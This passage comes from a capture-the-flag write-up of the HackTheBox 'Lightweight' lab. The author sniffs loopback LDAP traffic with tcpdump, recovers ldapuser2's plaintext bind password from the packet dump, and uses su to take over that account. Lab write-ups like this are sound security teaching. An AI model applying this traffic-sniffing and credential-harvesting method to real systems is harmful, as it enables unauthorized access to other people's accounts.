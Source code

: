 So I started `tcpdump` and visited the page, and tried resetting my user. After waiting a while, I didn’t get any traffic. However, once I started clicking around again, I got ldap traffic on visiting `status.php`. This packet was most interesting:

```

[10.10.14.3@lightweight ~]$ tcpdump -i lo -nnXs 0 'port 389'
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
...[snip]...
06:16:44.588923 IP 10.10.10.119.36488 > 10.10.10.119.389: Flags [P.], seq 1:92, ack 1, win 683, options [nop,nop,TS val 541880593 ecr 541880593], length 91
        0x0000:  4500 008f a0c8 4000 4006 709f 0a0a 0a77  E.....@.@.p....w
        0x0010:  0a0a 0a77 8e88 0185 26a9 d1d8 aa44 7d50  ...w....&....D}P
        0x0020:  8018 02ab 2983 0000 0101 080a 204c 7111  ....)........Lq.
        0x0030:  204c 7111 3059 0201 0160 5402 0103 042d  .Lq.0Y...`T....-
        0x0040:  7569 643d 6c64 6170 7573 6572 322c 6f75  uid=ldapuser2,ou
        0x0050:  3d50 656f 706c 652c 6463 3d6c 6967 6874  =People,dc=light
        0x0060:  7765 6967 6874 2c64 633d 6874 6280 2038  weight,dc=htb..8
        0x0070:  6263 3832 3531 3333 3261 6265 3164 3766  bc8251332abe1d7f
        0x0080:  3130 3564 3365 3533 6164 3339 6163 32    105d3e53ad39ac2
...[snip]...

```

That’s the authentication packet. I can see it better if i use `tcpdump` to save the pcap, bring it back to my box, and open it in Wireshark.

![1557034227649](https://0xdfimages.gitlab.io/img/1557034227649.png)

It’s tempting to think that the password here is being sent as a hash, but that doesn’t actually make sense. I already observed in my ldap enumeration that the passwords were stored in the format `$6$`, [which is sha512](https://hashcat.net/wiki/doku.php?id=example_hashes). So if the host only knows the password as sha512, send it what looks like an md5 doesn’t make sense. There’s no way for the host to compare those two and see if they match.

Beyond that logic, I can also see that ldap sends the password [in plain text](https://www.tldp.org/HOWTO/LDAP-HOWTO/authentication.html).

### su

Armed with ldapuser2’s password, I can now `su` within my ssh session:

```

[10.10.14.3@lightweight ~]$ su ldapuser2
Password: 
[ldapuser2@lightweight 10.10.14.3]$ id
uid=1001(ldapuser2) gid=1001(ldapuser2) groups=1001(ldapuser2) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

```

I can also grab `user.txt`:
